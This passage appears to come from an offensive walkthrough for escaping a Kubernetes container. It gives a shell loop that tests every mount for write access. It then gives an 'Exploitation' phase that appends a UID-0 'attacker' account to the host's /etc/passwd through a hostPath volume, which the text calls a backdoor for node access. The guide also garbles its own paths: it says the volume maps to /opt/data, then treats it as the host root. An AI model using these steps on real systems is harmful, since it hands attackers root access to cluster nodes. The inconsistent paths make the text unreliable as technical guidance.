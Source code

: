 5. **Inspect all volumes and test for writing:**

    ```bash
    mount | awk '{print $3}' | grep '^/' | while read mount_point; do
        echo "Testing write access to: $mount_point"
        if touch "$mount_point/test_file" 2>/dev/null; then
            echo "Successfully wrote to: $mount_point/test_file"
            rm "$mount_point/test_file"
        else
            echo "Failed to write to: $mount_point"
        fi
    done
    ```

    *   **Explanation:** This script iterates through each mount point and attempts to create a `test_file` within it.  It reports whether the write was successful.
    *   **Why:** This automatically iterates over all likely mount points to test for write access.  It handles errors silently so it can iterate correctly.
    *   **Expected Output:** Output showing whether each mountpoint is writable.
    *   **Contributes to:** Comprehensive discovery of writable mounted volumes.
    *   **Alternative:** Adapt the script to write to other locations, such as a temporary directory within the mount point if the top level directory is restricted.

**Phase 2: Exploitation - Modifying System Files (Example Scenario: hostPath Volume)**

This example assumes a `hostPath` volume is writable inside the container.  The exact steps will vary depending on the discovered writable volume and its contents.

1. **Locate a Suitable Target:** Assume `/mnt/hostpath` is a writable `hostPath` volume, pointing to `/opt/data` on the host, and that we want to modify `/etc/passwd` on the host. This is a *highly dangerous* scenario and should only be performed in a controlled, isolated test environment.

2.  **Backup Target File:**

    ```bash
    cp /mnt/hostpath/etc/passwd /mnt/hostpath/etc/passwd.bak
    ```

    *   **Explanation:** This creates a backup of the target file before modification.
    *   **Why:**  Protects against accidental damage and allows restoration.
    *   **Expected Output:** No error if successful.

3.  **Modify the Target File:**

    ```bash
    echo "attacker:x:0:0:root:/root:/bin/bash" >> /mnt/hostpath/etc/passwd
    ```

    *   **Explanation:** This command appends a malicious user account to the `passwd` file on the *host*.
    *   **Why:** This is a classic method to gain root access to the node.
    *   **Expected Output:** No error if successful. The `/etc/passwd` file on the host will now contain a new user account.
    *   **Contributes to:** Introduces a backdoor for node access.
    *   **WARNING:** This command is highly dangerous and should only be used in a controlled environment. Incorrect modification of `/etc/passwd` can render the system unusable.
